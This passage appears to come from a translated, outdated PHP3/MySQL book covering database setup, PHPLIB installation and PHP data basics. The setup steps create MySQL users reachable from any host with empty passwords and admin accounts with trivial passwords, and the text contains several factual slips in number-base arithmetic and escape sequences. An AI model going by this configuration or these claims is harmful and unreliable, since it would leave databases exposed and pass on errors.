+---------------+----------------+------+-----+-------+-------+
| Host          | char(60)       |      | PRI |       |       |
| User          | char(16)       |      | PRI |       |       |
| Password      | char(16)       |      |     |       |       |
| Select_priv   | enum('N','Y')  |      |     | N     |       |
| Insert_priv   | enum('N','Y')  |      |     | N     |       |
| Update_priv   | enum('N','Y')  |      |     | N     |       |
| Delete_priv   | enum('N','Y')  |      |     | N     |       |
| Create_priv   | enum('N','Y')  |      |     | N     |       |
| Drop_priv     | enum('N','Y')  |      |     | N     |       |
| Reload_priv   | enum('N','Y')  |      |     | N     |       |
| Shutdown_priv | enum('N','Y')  |      |     | N     |       |
| Process_priv  | enum('N','Y')  |      |     | N     |       |
| File_priv     | enum('N','Y')  |      |     | N     |       |
| Grant_priv    | enum('N','Y')  |      |     | N     |       |
| References_priv| enum('N','Y') |      |     | N     |       |
| Index_priv    | enum('N','Y')  |      |     | N     |       |
| Alter_priv    | enum('N','Y')  |      |     | N     |       |
+---------------+----------------+------+-----+-------+-------+
```

```
> # When a database, a table, and a field are specified,
> # the field information is displayed.
> mysqlshow -h mtolive.com -u root -p mysql user User
Enter password: password
Database: mysql  Table: user  Rows: 5  Wildcard: User
+--------+---------+------+-----+---------+-------+
| Field  | Type    | Null | Key | Default | Extra |
+--------+---------+------+-----+---------+-------+
| User   | char(16)|      | PRI |         |       |
+--------+---------+------+-----+---------+-------+
```

```
> # Show the host/user combinations that MySQL
> # knows about using the Linux command line.
> mysql -h mtolive.com -u root -p \
> -e "select host,user from user" mysql
Enter password: password
```

| host | user |
|------|------|
| localhost | root |
| mtolive.com | root |
| localhost | |
| mtolive.com | |
| mtolive.com | webuser |

```
> # Show the host/user combinations that MySQL
> # knows about using the mysql command line.
> mysql -h mtolive.com -u root -p
Enter password: password
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 45 to server
version: 3.22.16a-gamma

Type 'help' for help.
```

```
mysql> use mysql;
Database changed
mysql> select host,user from user;
+-------------+---------+
| host        | user    |
+-------------+---------+
| localhost   | root    |
| mtolive.com | root    |
| localhost   |         |
| mtolive.com |         |
| mtolive.com | webuser |
+-------------+---------+
5 rows in set (0.00 sec)
```

```
mysql> # If you want to change the password
mysql> # for a user, use the following SQL
mysql> # statement.
mysql> update user \
    -> set password=password('password') \
    -> where user='root';
Query OK, 2 rows affected (0.02 sec)
Rows matched: 2  Changed: 2  Warnings: 0
mysql> exit
```

**警告**

> 设置密码时务必使用 `password()` 函数。详情请查看 MySQL 文档。

**警告**

> 在将系统投入生产模式运行之前，请选择一个比 "password" 更好的 root 密码！

## 编译 iODBC 和 MyODBC

*iODBC* 是一个实现开放数据库连接（Open Database Connectivity）协议的函数库。它主要用于连接在 Microsoft Windows 上运行的数据库引擎。

- 1. cd /usr/local/src/libiodbc-2.50.3

进入 iODBC 目录。

- 2. ./configure \
  --prefix=/usr/local/iodbc \
  --with-iodbc-inidir=/usr/local/etc

运行配置程序，并强制其将安装设置为将 iODBC 安装到 `/usr/local/iodbc`。此外，确保 ODBC 初始化文件名为 `/etc/odbc.ini`。

- 3. make

- 4. make install

库文件被复制到 `/usr/local/iodbc/lib`，头文件被复制到 `/usr/local/iodbc/include`。

- 5. cd /usr/local/src/myodbc-2.50.24

进入 MyODBC 目录。

- 6. ./configure \
  --prefix=/usr/local/myodbc \
  --with-mysql-sources=/usr/local/src/mysql-3.22.16a-gamma \
  --with-odbc-ini=/etc/odbc.ini \
  --with-iodbc=/usr/local/iodbc

运行 MyODBC 配置程序。

- 7. make

- 8. make install


 ```
ln -s \
/usr/local/src/php-3.0.11/doc \
/usr/local/apache/htdocs/phpdocs
```

创建一个符号链接，以便你可以通过 http://localhost/phpdocs/ 访问 PHP 文档。

创建一个名为 /usr/local/apache/htdocs/robots.txt 的文件，包含以下行，以便搜索引擎避免索引你的 PHPLIB 和 phpMyAdmin 文件以及 PHP 文档：

```
#robots.txt for {hostname}
User-agent *
Disallow: /phpdocs/
Disallow: /php/
Disallow: /phpMyAdmin/
```

## 安装 PHPLIB

在阅读第 15 章"管理并发访问"之前，需要先安装 PHPLIB。请按照以下步骤操作：

1. 以 root 用户或任何能够在 /usr/local/apache 目录中写入文件的其他用户身份登录。

```
cd /usr/local/apache/
```

在开始下载之前连接到 Web 服务器根目录。

3. 从以下网站下载最新版本。请注意 gz 文件名，以防它已从 phplib.tar.gz 更改。

http://phplib.shonline.de/

4. tar xvf phplib.tar.gz

解压 PHPLIB 模块。

5. 编辑 /usr/local/lib/php3.ini 文件，使其包含以下行：

```
include_path=.:/usr/local/apache/phplib-6.1/php
auto_prepend_file = /usr/local/apache/phplib-6.1/php/prepend.php3
track_vars = on
magic_quotes_gpc = on
sendmail_path /usr/sbin/sendmail -t
```

6. 创建一个名为 poe_sessions 的 mysql 数据库。我使用了 phpMyAdmin，但如果你愿意，也可以执行 SQL 命令。

7. cd /usr/local/apache/phplib-6.1/stuff

连接到表创建脚本目录。

8. mysql php_book --user=root --password < create_database.mysql

创建 PHPLIB 所需的数据库表。

9. 在 mysql 数据库的 user 表中创建一条新记录，使用以下值：

- host: %
- password: <-- 无密码。
- select_priv: Yes
- insert_priv: Yes
- update_priv: Yes
- delete_priv: Yes

针对名为 "kris"、"user01" 和 "user02" 的用户。

**注意**

你可以使用以下 SQL：

```
INSERT INTO
  user
  (
   Host
   ,User
   ,Password
   ,Select_priv
   ,Insert_priv
   ,Update_priv
   ,Delete_priv
  )
VALUES (
  '%'
  ,'kris'
  ,''
  ,'Y','Y','Y','Y'
)
```

10. 在 mysql 数据库的 db 表中创建一条新记录，使用以下值：

- host: %
- db: poe_sessions
- select_priv: Yes
- insert_priv: Yes
- update_priv: Yes
- delete_priv: Yes

针对名为 "kris"、"user01" 和 "user02" 的用户。

**注意**

你可以使用以下 SQL：

```
INSERT INTO
  db
(
  Host
  ,Db
  ,User
  ,Select_priv
  ,Insert_priv
  ,Update_priv
  ,Delete_priv
)
VALUES (
  '%'
  ,'poe_sessions'
  ,'kris'
  ,'Y', 'Y', 'Y', 'Y'
)
```

```
11. /usr/local/mysql/bin/mysqladmin -u root -p reload
```

重新加载 MySQL 权限表。

12. 在 php_book 数据库中使用以下 SQL 创建两个 PHPLIB 授权用户（user01 和 user02）：

```
INSERT INTO
    auth_user
    (
    uid
    ,username
    ,password
    ,perms
    ) VALUES (
    'c14cbf141ab1b7cd009356f555b1234'
    ,'user01'
    ,'test'
    ,'admin')
```

```
INSERT INTO
    auth_user
    (
    uid
    ,username
    ,password
    ,perms
    ) VALUES (
    'c14cbf141ab1b7cd009356f555b3241'
    ,'user02'
    ,'test'
    ,'admin')
```

```
mv /usr/local/apache/phplib-6.1/pages /usr/local/apach/htdocs
```

将演示目录移动到 Web 服务器根目录下，以便可以通过浏览器访问它们。

14. 编辑你的 `/usr/local/apache/htdocs/robots.txt` 文件，添加以下行：

```
Disallow: /phplib/
```

15. 使用 Web 浏览器连接到 `http://localhost/phplib/`。你应该会看到一个如图 2.1 所示的页面。

## 在 Linux 上测试 ODBC

对已安装的软件运行基本测试非常重要，尤其是当你需要手动编辑配置文件时。以下测试确保你的 MyODBC 驱动程序工作正常，并且 iODBC 库编译正确。

1. 使用清单 2.1 中的内容创建名为 `/usr/local/etc/odbc.ini` 的文件。

### 清单 2.2 `/usr/local/etc/odbc.ini`——系统范围的 ODBC 配置文件

```
;
; odbc.ini
;

[ODBC Data Sources]
mysql = mysql

[php_book]
driver = /usr/local/myodbc/lib/libmyodbc.so
host = localhost
database = mysql
user = root
```



重新加载此页面以查看计数器递增。

加载更复杂的示例（以 kris 身份登录，密码为 test）。

加载默认的 auth 示例。

显示你的 phpinfo() 页面。

注销并删除你的身份验证信息。

**每次会话数据：3**

每次会话数据通过会话 ID 引用。会话 ID 通过存储在用户浏览器中的 cookie 或作为附加到当前 URL 的 GET 样式参数进行传播。

每次会话数据仅在使用其 page_open() 调用中具有 "sess" 功能的页面上可用。

### 图 2.1 重新加载两次后的 PHPLIB 演示页面。

2. cd /usr/local/src/libiodbc-2.50.3/samples

3. ./odbctest

运行 ODBC 测试程序。

4. DSN=mysql;PWD=password

告诉测试程序你要连接哪个数据源。

5. select host,user from user

在提示符下执行 SQL 语句。如果得到响应，则 iODBC 和 MyODBC 工作正常。

ODBC 现在已安装并可在你的计算机上工作。本章包含了安装和测试说明，因为这些步骤并不直观，而且文档很少。然而，ODBC 主要是微软的技术，在 Linux 上很少使用。所以这是本书中最后一次提到它。

## 小结

本章提供了在你的计算机上运行 PHP 所需的步骤。你编译了一个特殊的 Apache Web 服务器版本，其中内置了 PHP。你还安装了 PHPLIB，它将在第 15 章"插曲四：管理并发访问"中使用。

下一章"在 PHP 中操作数据"将介绍 PHP 如何处理变量数据以及用于影响这些数据的运算符。

## 在 PHP 中操作数据

本章重点介绍 PHP 程序内部的数据。内部数据包括字面量、变量和常量。程序内部的数据使用运算符进行操作。运算符告诉 PHP 对内部数据执行什么操作（加法、减法等）。程序外部的数据包括文本文件和数据库。有关外部数据的更多信息，请参见第 6 章"数据库与 SQL"。

字面量值在你的程序运行期间不会改变，因为你在源代码中准确地表示它们应该被使用的方式。然而，大多数时候，你需要在程序运行时更改所使用的值。为此，你需要预留计算机内存的片段来保存可变的值。并且你需要跟踪所有这些小的内存区域在哪里，以便在程序运行时可以引用它们。PHP 与其他所有计算机语言一样，使用变量来跟踪计算机内存的使用情况。每当你需要存储一条新信息时，就将其分配给一个变量。常量值是分配了名称的字面量值。常量值的经典例子是数学值 pi。

本章展示了如何在 PHP 中使用字面量、变量和常量。首先，让我们谈谈字面量。

### 字面量

*字面量*是按原样表示或硬编码的值。例如，当你在程序源代码中看到像 12.5 这样的数字时，它表示十二又二分之一，而不是字符 "1"、"2"、"." 和 "5" 四个字符。类似地，你可以表示文本。例如，"Rolf D'Barno"（注意双引号）表示一个由十二个字符组成的字符串。因为这十二个字符被双引号包围，它们算作单个字面量值。

PHP 使用两种类型的字面量：

- 数值——最基本的数据类型。
- 文本——由单个单元处理的一系列字符。

### 数值字面量

*数值字面量*在 PHP 中经常使用。它们表示你的程序执行某些任务所需的数字。大多数时候你会使用十进制数——最常用的进制。然而，你也可以使用八进制（基数为 8）或十六进制（基数为 16）数。

如果你处理非常大或非常小的数字，你可能会发现科学记数法很有用。我已经忘记了大部分在高中学习的数学；然而，科学记数法一直留在我的脑海中。也许是因为我喜欢移动小数点。科学记数法看起来像 10.23E+4，这是

对于不熟悉非十进制数制的人，这里做一个简短的解释。

在十进制（或称基数十）中，当你看到数值 15 时，它表示 (1 * 10) + 5 或 15₁₀。下标表示使用的是哪种进制。

在八进制（或称基数十进制八）中，当你看到数值 15 时，它表示 (1 * 8) + 5 或 13₁₀。

在十六进制（或称基数十进制十六）中，当你看到数值 15 时，它表示 (1 * 16) + 5 或 21₁₀。基数十进制十六需要 6 个字符来补充 0 到 9，这样每个位置就能有总共 16 种值。字母 A-F 用来表示 11-16。所以数值 BD₁₆ 等于 (B₁₆ * 16) * D₁₆ 或 (11₁₀ * 16) + 13₁₀，即 176₁₀。

等效于 102,300。如果使用负号，你也可以表示较小的数。例如，10.23E-4 等于 .001023。如果指数为正当，只需将小数点向右移动；如果指数为负，则向左移动。

让我们看看可以在程序代码中使用的一些不同类型的数。首先，这里有一些整数。

+   • 123——使用十进制表示的整数。

+   • 043——使用八进制表示的整数。以零开头的数字被解释为八进制。

+   • 0x23——使用十六进制表示的整数。以"0x"开头的数字被解释为十六进制。

带有分数成分的数称为*浮点数*。为了方便起见，你经常看到这些值被称为*floats*。

+   • 100.5——十分位上有值的浮点数。你也可以说是 100 又 ⁵⁄₁₀。

+   • 54.534——千分位上有分数值的浮点数。你也可以说是 54 又 ⁵³⁄₄/₁₀₀₀。

+   • .000034——一个非常小的浮点数值。你可以用科学记数法将其表示为 3.4E-5。

### 注意

整数是没有小数成分的数。

浮点数有小数成分。

## 文本字面量

文本字面量是被引号包围的一组字符，以便可以作为单个数据使用。实际上，PHP 在引号方面比较宽松——你可以在没有引号的情况下使用单个单词作为字符串。但请不要这样做。文本字面量有时被称为字符串，因为它们由一系列字符串联而成。它们在程序中经常被用来标识文件名、显示消息和提示输入。PHP 区分单引号（'）、双引号（"）和反引号（`）。

文本字面量也被称为字符串。

### 单引号字符串

单引号字符串相当简单；只需用单引号将你需要的文本包围起来即可。例如：

单引号字符串是被单引号（'）包围的文本。

```
'Men at Arms by Terry Pratchett'
'<P>This is an HTML paragraph.</P>'
```

### 注意

单引号字符串的真正用途在阅读本章后面的"变量插值"部分之前不会显现出来。

如果需要在单引号字符串内部使用单引号，生活就会变得稍微复杂一些。例如，下面的例子无法工作，因为第二个引号结束了字符串：

```
'Terry's book is highly enjoyable.'
```

这种问题被称为语法错误或解析错误。PHP 编译器不知道如何处理第二个单引号后面的文本。

这里是一个修正后的例子：

```
'Terry\'s book is highly enjoyable.'
```

反斜杠（\）字符表示单引号的正常功能——结束文本字面量——应该被忽略。

### 提示

反斜杠字符也被称为转义字符——也许是因为它让下一个字符从其正常解释中*逃脱*出来。

关于单引号字符串还有一个重要的知识点需要学习——你可以通过在源代码中添加换行符来给单引号字符串添加换行。清单 3.1 展示了如何做到这一点。

### 清单 3.1 line_breaks.php3——使用嵌入的换行符来开始新行

```
<?php
    echo '<pre>First Paragraph:

Corporal Carrot, Ankh-Morpork City Guard
(Night Watch), sat down in his nightshirt,
took up his pencil, sucked the end for a
moment, and then wrote:</pre>';
?>
```

### 图 3.1 代码中的字面换行符可以通过 Web 浏览器看到。

你可以在图 3.1 中看到，对于单引号字面量，即使源代码中的换行符也是字符串的一部分。

### 双引号字符串

双引号字符串与单引号字符串相似，但稍微复杂一些。使用双引号字符串时，你可以使用反斜杠来添加转义序列或元字符到你的字符串中。你还可以使用变量插值，但这个主题稍后会讲到，我们不想超前。

基本的双引号字符串是被双引号包围的一系列字符。如果需要在字符串内部使用双引号，可以使用反斜杠字符。例如：

```
"Men at Arms by Terry Pratchett"
"<P>This is an HTML paragraph.</P>"
"Terry's book is highly enjoyable."
"John said, \"Gifts are great.\""
```

注意最后一行中的反斜杠是如何用来转义双引号字符的。而单引号可以在不使用反斜杠的情况下使用。双引号字符串和单引号字符串之间的一个主要区别是，双引号字符串具有可以在内部使用的特殊*转义序列*。表 3.1 展示了 PHP 能理解的转义序列。

### 表 3.1 转义序列

| 转义序列 | 描述 |
| --- | --- |
| \\n | 换行 |
| \\r | 回车 |
| \\t | 制表符 |
| \\$ | 美元符号 |
| \\0nnn | 任意八进制字节 |
| \\xnn | 任意十六进制字节 |
| \\\\ | 反斜杠 |

**提示**

在下一节"变量"中，你会明白为什么在使用 $ 字符时可能需要使用反斜杠。

\0nnn 和 \xnn 的表示法可能对你来说比较陌生。看看这些例子：

```
"Peter was \067 years old yesterday."
"Peter was \x39 years old yesterday."
```

这些文本字面量都表示 Peter was 9 years old yesterday。表示 Peter 年龄的八进制和十六进制表示法使用了数字 9 字符的 ASCII 码。ASCII 码列在附录 B 中。

### 反引号字符串

可以说*反引号字符串*并不是真正的文本字面量。这是因为 PHP 使用反引号字符串来执行系统命令。当 PHP 看到反引号字符串时，它会将内容传递给 Windows、UNIX、discriminator 操作系统使用。清单 3.2 展示了如何做到这一点，图 3.2 展示了系统命令的输出显示在 Web 浏览器窗口中的效果。

反引号字符串是被反引号（`）包围的文本。

### 清单 3.2 back_quoted_string.php3——使用反引号字符串执行命令

```
<?php
    echo '<pre>';
    echo `ls *.php3`;
    echo '</pre>';
?>
```

### 图 3.2 系统命令显示的文本可以显示在 Web 浏览器中。

双引号字符串使用的转义序列也可以用于反引号字符串。

## 变量

字面量值只占程序内部可用数据的一部分。当你需要保存数据值并在程序运行过程中更改它们时，你需要变量。PHP 有三种类型的变量：

**标量**——一次保存一个数字或字符串值。我经常用 `scl_` 开头来命名我的标量变量。如果变量只保存一种类型的值，我会在其名称前加上 `int_` 或 `str_`。

**数组**——保存一个值列表。这些值可以是数字、字符串，甚至是另一个数组。我经常用 `arr_` 开头来命名我的数组变量。

**对象**——同时保存变量信息和函数。更多信息请参阅第 10 章"面向对象"。我经常用 `obj_` 开头来命名我的对象变量。

### 提示

我建议不要为不同的数据类型使用相同的变量名，除非你有充分的理由这样做。如果你确实需要使用相同的名称，可以尝试使用其复数形式作为数组变量名。例如，使用 `$name` 作为标量变量名，使用 `$names` 作为数组变量名。这可能会避免一些关于你的代码的混淆。

### 注意

PHP 中的变量名是区分大小写的。这意味着 `$scl_varname`、`$scl_VarName`、`$scl_varName` 和 `$scl_VARNAME` 都指向不同的变量。

每种变量类型都在下面各自的章节中讨论。你将看到如何命名变量和设置它们的值，以及它们的一些用途。

### 标量变量

*标量*变量用于跟踪单个信息片段。例如，客户名称或销售额。你可以使用几乎任何你能想象到的名称作为标量变量，只要它以 `$` 开头，且第二个字符是字母或下划线。


 > 如果你曾经使用过 Visual Basic 编程，那么在命名变量时需要特别小心。请记住，所有标量变量都以 $ 开头，而不仅仅是字符串，并且 $ 是名称的开头而不是结尾。

### 提示

让我们直接来看一些变量名称：

- $int_page_number——保存当前页码。
- $str_magazine_title——保存杂志的标题。
- $0——糟糕的变量名。变量名不能以数字字符开头。

我喜欢使用描述性的变量名。对我来说，$int_book_number 比 $booknum 更好，因为它更具描述性。一般来说，最好避免使用短变量名，因为较长的变量名有助于理解程序。PHP 变量名的长度实际上没有限制，但我喜欢将它们控制在二十个字符以内。超过这个长度会增加拼写错误的几率。

> 使用描述性的变量名：int_book_number 比 booknum 更好。

现在你已经知道标量变量的命名方式了，接下来看看如何给它们赋值。给变量赋值使用等号（=），如清单 3.3 所示。

## 清单 3.3 assign_scalars.php3——使用赋值运算符

```
<?PHP
  // 给名为 $int_page_number 的变量赋值 46
  // called $int_page_number.
  $int_page_numbber = 46;

  // 给名为 $str_magazine_title 的变量赋一个字符串值
  // called $str_magazine_title.
  $str_magazine_title = 'PHP is good!';
?>
```

这段代码将字面值赋给变量。在赋值简单的文本字面量时，使用单引号字符串，因为它们更高效。

> PHP 使用两条斜杠（//）来开始注释。任何跟在 "//" 后面的字符都会被忽略。

### 注意

赋值之后，你可以根据需要更改它们。下一个示例，清单 3.4，先进行变量赋值，然后使用第二次赋值更改该变量的值。第二次赋值将值增加一。

## 清单 3.4 change_scalars.php3——更改变量的值

```
<?PHP
// 给名为 $int_page_number 的变量赋值 46
// called $int_page_number.
$int_page_number = 46;

// 将页码变量加一。
$int_page_number = $int_page_number + 1;
?>
```

### 注意

> 在 PHP 中，你永远不需要声明、定义或分配简单的数据类型（标量或数组）。使用变量名就相当于定义了它。

### 数组变量

数组是作为整体处理的一系列数字和字符串。数组中的每条信息都被视为数组的一个元素。你也可以将数组看作一个列表。例如，你可以使用数组来保存文件中的所有行，或一个地址列表。

你不必担心数组变量的命名规则，只要记住不要以数字开头变量名，并且只使用数字、字母和下划线来创建名称即可。

数组元素的初始值可以通过三种方式给出。你可以逐个为每个元素赋值：

```
$arr_zoo['pelican'] = 'Bird with a big beak.';
$arr_zoo['cheetah'] = 'Fast cat.';
$arr_zoo['horse']   = 'Four-legged animal.';
```

你可以使用以下符号来一次赋值多个元素：

```
$arr_zoo = array(
  'pelican'  => 'Bird with a big beak.'
  ,'cheetah' => 'Fast cat.'
  ,'horse'   => 'Four-legged animal.'
);
```

最后，最快的方法是简单地将条目添加到下一个可用的数组"槽位"。第一个槽位的键是 0。第二个槽位的键是 1，依此类推。例如，以下代码行向 $arr_names 数组添加三个条目。这些条目的键分别是 1、2 和 3（假设数组中不存在其他元素）。

```
$arr_names[] = 'Mitch';
$arr_names[] = 'Gerry';
$arr_names[] = 'Tim';
```

现在你已经知道如何给数组元素赋值了，让我们看看如何检索这些值。

要获取数组 arr_zoo 中与某个键（如 'pelican'）相关联的值，请使用以下符号：

```
$key   = 'pelican';
$value = $arr_zoo[$key]
```

执行这两行代码后，$value 的值是 "bird with a big beak"。字符串字面量也可以用来指定要检索哪个键。例如：

```
$value = $arr_zoo[pelican];
```

用作数组键的字符串字面量不应被闭合引号包围（Perl 称它们为*裸词*）。由于使用了裸词，数组键中不应包含空格。

> 当你访问一个尚未赋值的数组元素时，PHP 会返回空字符串或 null 字符串。

PHP 数组是键值对这一事实偶尔会造成障碍，因为没有简单的方法来显示数组中的值。这种功能缺失会在测试和调试阶段阻碍程序开发。尽管本书尚未涉及函数，清单 3.5 提供了一个。只需将 dump_array 函数视为黑盒——读完本书后，你将能够理解它的作用。将此示例用作模板；注释说明了如何在你自己的程序中使用该函数。图 3.3 展示了使用 dump_array 函数的结果。

## 清单 3.5 dump_array.php3——更改变量的值

```
<?php

// 定义 dump_array 函数。
function dump_array($var)
{
    switch (gettype($var)) {
        case 'integer':
        case 'double':
        case 'string':
            echo $var;
            break;
        case 'array':
            echo '<table border="1">\n';
            do {
                echo '<tr><td align="left" valign="top">';
                echo key($var);
                echo '</td><td>';
                dump_array($var[key($var)]);
                echo '</td></tr>';
            } while (next($var));
            echo '</table>';
            break;
        default:
            echo 'Unknown data type.';
            break;
    }
}

// 初始化 zoo 数组。
$arr_zoo = array(
    'Pelican' => 'Bird with a big beak.'
    ,'Cheetah' => 'Fast cat.'
    ,'Horse'   => 'Four-legged animal.'
);

// 调用 dump_array 函数显示
// zoo 数组的元素。
dump_array($arr_zoo);

?>
```

注意

dump_array 函数以无特定顺序显示数组的键值对。第 4 章将讨论可以对数组元素进行排序的函数。

## 图 3.3 dump_array 函数显示任意数组的键和值。

到目前为止，我们在数组中只使用了字符串字面量作为键。让我们更有创意一些。你认为以下数组初始化创建了哪些键？

```
$arr_mixed = array(
  1
  ,434
  ,'Jake' => '23 First Lane'
  ,'Rebecca'
);
```

arr_mixed 数组的键是 0、1、Jake 和 2。如果没有为给定值提供键，PHP 会提供一个。默认键从零开始，每次添加未与键关联的值时递增。

你可以将所有字面量键（包括数字和字符串）替换为标量变量，仍然可以检索正确的值。你可以说

```
$key = 1;
echo $arr_mixed[$key];
```

前两行显示 434。让我们用这个例子来展示 PHP 如何根据需要自动将数字数据类型转换为字符串数据类型。在接下来的几行中，键值被初始化为字符串：

```
$key = '1';
echo $arr_mixed[$key];
```

这两行代码也显示 434，说明 PHP 会自动从字符串转换为数字。

有时你可能想在数组初始化中使用变量。例如：

```
$int_page_number = 434;
$str_first_name = 'Jake';

$arr_mixed = array(
  1
  ,$int_page_number
  ,$str_first_name => '23 First Lane'
  ,'Rebecca'
);
```

## 多维数组

对于许多程序来说，简单的值列表不够复杂。例如，假设你需要为一组书籍同时存储页数和出版商名称。跟踪两个列表 `lst_number_of_pages` 和 `lst_publisher_names` 在你需要添加和编辑信息时变得很麻烦。而且保持两个列表同步是潜在的错误来源。

多维数组提供了一种非常灵活的数据结构。每个数组元素可以包含另一个数组。不幸的是，*multidimensional* 是一个很长的词——我更喜欢使用 *hash* 这个词，它反映了数据结构在内存中的组织方式。

### 注意

> 我不会详细介绍哈希数据结构如何高效使用内存，或者为什么访问键的值是一个快速的过程。但是，如果你好奇，我鼓励你找一本关于数据结构的书来了解更多。

可以这样初始化哈希：

```
$arr_books = array(
  '0-679-76781-9' => array(
    'name' => 'The Demolished Man'
    ,'pages' => 243
    ,'publisher' => 'Vintage Books'
  )
)
```


,'0-312-85395-5' => array(
	'name' => 'Children of the Mind'
	,'pages' => 349
	,'publisher' => 'Tor Books'
);

上面的示例将每本书的 ISBN 作为 `$arr_books` 哈希表的键。每本书都有自己的子哈希表，用于存放其特定信息。为了访问子哈希表中的信息，普通的数组表示法被扩展为使用两个键。例如，要获取《The Demolished Man》的页数，可以这样写：

```
$arr_books[0-312-85395-5][pages]
```

你会发现哈希表非常灵活。毫不夸张地说，我编写的每个程序都会用到哈希表。哈希表如此灵活的原因之一在于你可以根据需要动态添加条目。如果你在程序运行过程中发现需要存储作者的名字，只需简单地将该信息添加到哈希表中即可：

```
$arr_books[0-312-853935-5][author] = 'Orson Scott Card';
```

请注意，哈希表数据结构允许你向一个子哈希表添加条目，而不影响其他任何子哈希表。当你开始使用 PHP 从多个数据库表中收集信息时，哈希表可以用来合并信息。例如，如果你正在处理来自多个供应商的产品数据库，你可以将第一个供应商的信息存储到一个哈希表中，然后读取第二个供应商的信息，将其存储到同一个哈希表中。当所有读取和存储操作完成后，这个单一的哈希表就包含了你所有的库存信息。

前面清单 3.5 中展示的 `dump_array` 函数说明了哈希表的组织结构。第 46 页的图 3.4 展示了 `$arr_books` 哈希表由 `dump_array` 函数解析后的组织结构。

## 变量插值

双引号字符串还有一个我们尚未讨论的特性，因为它涉及变量。现在你已经熟悉了 PHP 变量的工作方式，让我们重新审视一下双引号字符串。

*变量插值*是指 PHP 可以在双引号字符串中将变量名替换为它们的值。这个概念扩展了变量"代表"其值的常规方式。例如，如果 `$int_count` 的值是 14，那么 `$int_count + 14` 实际上就是 14 + 14。在 PHP 中——以及大多数计算机语言中——这种替换也会在字符串内部进行。例如：

```
$str_size = 'big';
echo "Jack was a $str_size man.";
```

显示结果为

Jack was a big man.

当你需要在一个变量名后面紧跟空格和标点符号以外的字符时，就会出现问题。下面的代码片段展示了会发生什么：

```
$str_size = 'big';
echo "Jack was a $str_sizeger man.";
```

PHP 不会将其视为一个变量（`$str_size`）后跟一个字符串（`'ger'`），而是将整个 `$str_sizeger` 视为一个变量名。用花括号将变量名括起来可以解决这个问题：

```
$str_size = 'big';
echo "Jack was a ${str_size}ger man.";
```

使用几次变量插值后，组合字符串和变量将变得非常自然。清单 3.6 展示了一些变量插值的示例。

### 清单 3.6 interpolation.php3——变量插值示例

```
<?php
 // The require function loads and executes the
 // specified file. In this case, the dump_array
 // function is defined.
 require('common.inc');

 // Define some scalar variables.
 $int_number_of_books = 20;
 $str_book_title     = 'Of Mice and Men';

 // Define a complex array.
 $arr_books = array(
    'number_of_books' => $int_number_of_books
    ,'lst_books' => array(
                   'one' => array(
                            'name' => 'Of Mice and Men'
                    )
                    ,'two' => array(
                            'name' => 'Moby Dick'
                    )
    )

 );

 echo "<P>Examples Using Scalar Variables:</P>";
 echo "<UL>";
 echo '<P>"There are $int_number_of_books books." = ';
 echo "<B>There are $int_number_of_books books.</B></P>";

 echo '<P>"The first book is \"$str_book_title\"." = ';
 echo "<B>The first book is \"$str_book_title\".</B></P>";
 echo "</UL>";

 echo "<P>Examples Using Array Variables:</P>";
 echo "<UL>";

 // Show the array to demonstrate its complexity.
 dump_array($arr_books);

// There are several ways to specify array keys
$str_key = 'number_of_books';
echo "<P>Using a variable as the array key:<BR>";
echo '<UL>"There are $arr_books[$str_key] books." = ';
echo "<B>There are $arr_books[$str_key] books.</B></UL>";

echo "<P>Using a bare word as the array key:<BR>";
echo '<UL>"There are $arr_books[number_of_books] books."
= ';
echo "<B>There are $arr_books[number_of_books]
books.</B></UL>";
echo "</UL>";
?>
```

**图 3.5** 多维数组（或哈希表）可以通过 `dump_array` 函数查看。

图 3.5 展示了 `$arr_books` 哈希表有三个层级。第三层级包含书名。通常情况下，你可以这样访问书名条目：

```
echo "The name is
$arr_books[lst_books][0-679-76781-9][name].";
// The previous line of code produces a PHP parse error.
// parse error.
```

**图 3.5** 使用标量变量和数组变量进行插值。

遗憾的是，PHP3 不允许你在使用变量插值时同时使用多个键。访问书名的 PHP 安全方式如下：

```
$second_level = $arr_books[lst_books];
$third_level = $second_level[0-679-76781-9];
echo "The name is $third_level[name].";
```

## 动态变量名

PHP 允许你动态创建变量名。在程序运行时，可以使用特殊表示法创建新的变量名：

```
// store the name of the dynamic variable.
$scl_dynamic = 'str_name';

// assign a value to the dynamic variable.
$$scl_dynamic = 'John';

echo "\$str_name = $str_name\n";
```

该程序显示结果为

```
$str_name = John
```

虽然动态变量名玩起来有些意思，但在二十年的编程生涯中，我从未发现有实际使用它们的必要。数组的灵活性应该足以解决大多数可能需要动态变量名的问题。

## 常量

常量可以帮助你以一种轻松的方式为程序添加文档。引用 `BUFFER_SIZE` 的程序比引用 `1024` 的程序更容易理解。此外，由于大多数常量定义在程序文件的开头，修改起来非常方便。

你可以定义数字常量和字符串常量。下面的示例展示了如何定义：

```
<?php
	define('PI', 3.1415);
	define('HOST', '192.168.0.2');
?>
```

访问常量的值与访问变量类似，只是不需要使用前面的美元符号。上面定义的两个常量可以这样访问：

```
echo 'PI  = ' . PI;
echo 'HOST = ' . HOST;
```

由于不使用前面的美元符号，变量插值不适用于常量。

## 运算符

*运算符*告诉计算机要执行什么操作。试着用给汽车司机下指令的方式来理解运算符：例如，你可能会说"左转"或"右转"。这些命令可以被视为方向运算符，就像加号和减号是数学运算符，表示"加上这个"或"减去这个"一样。另一方面，如果你在汽车行驶时喊"停车"，这个命令应该优先于其他命令。这意味着"停车"的优先级高于"左转"和"右转"。

你已经熟悉了 PHP 的大部分运算符。在阅读运算符的相关内容时，相信你的直觉——你已知的定义很可能是正确的。

所有运算符都会对操作数执行操作。*操作数*可以是你对其执行操作的任何东西。实际上，任何特定的操作数可以是字面量、变量或表达式。你已经在本章前面接触过字面量和变量。*表达式*是运算符和操作数的组合，作为一个整体进行求值。

操作数本质上是递归的。在 PHP 中，表达式 `4 / 2`——两个操作数和一个除法运算符——可以被视为一个值为 2 的操作数。另一个例子是 `(5 + 9) - 7`，这是一个由两个操作数相减组成的表达式。第一个操作数是 `(5 + 9)`，第二个操作数是 `7`。

### 运算符优先级

*运算符优先级*在每种计算机语言中都非常重要，PHP 也不例外。优先级顺序决定了哪个运算符应该先被求值。PHP 使用结合性来

决定哪些运算符属于同一组。例如，一元减号运算符的优先级是右到左，因为它只影响其右侧的操作数。你可能没有意识到，甚至访问数组元素时使用的方括号也是运算符。表 3.2 为了完整性包含了这些运算符，但你不需要担心它们的优先级。随着经验的积累，你会发现运算符优先级只对算术运算符和逻辑运算符起作用。

